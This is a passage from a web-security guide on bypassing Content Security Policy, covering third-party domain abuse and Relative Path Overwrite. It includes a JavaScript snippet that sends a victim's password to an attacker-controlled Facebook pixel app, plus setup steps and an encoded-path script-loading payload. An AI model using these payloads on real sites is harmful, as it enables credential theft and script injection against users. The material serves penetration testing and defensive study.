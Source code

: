 If you find any of the allowed domains in the CSP of your target, chances are that you might be able to bypass the CSP by registering on the third-party service and, either exfiltrate data to that service or to execute code.

For example, if you find the following CSP:

```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```

or

```
Content-Security-Policy​: connect-src www.facebook.com;​
```

You should be able to exfiltrate data, similarly as it has always be done with [Google Analytics](https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/). In this case, you follow these general steps:

1. Create a Facebook Developer account here.
2. Create a new "Facebook Login" app and select "Website".
3. Go to "Settings -> Basic" and get your "App ID"
4. In the target site you want to exfiltrate data from, you can exfiltrate data by directly using the Facebook SDK gadget "fbq" through a "customEvent" and the data payload.
5. Go to your App "Event Manager" and select the application you created (note the event manager could be found in an URL similar to this: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events
6. Select the tab "Test Events" to see the events being sent out by "your" web site.

Then, on the victim side, you execute the following code to initialize the Facebook tracking pixel to point to the attacker's Facebook developer account app-id and issue a custom event like this:

```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
    data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```

As for the other seven third-party domains specified in the previous table, there are many other ways you can abuse them. Refer to the previously [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) for additional explanations about other third-party abuses.

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

In addition to the aforementioned redirection to bypass path restrictions, there is another technique called Relative Path Overwrite (RPO) that can be used on some servers.

For example, if CSP allows the path `https://example.com/scripts/react/`, it can be bypassed as follows:

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
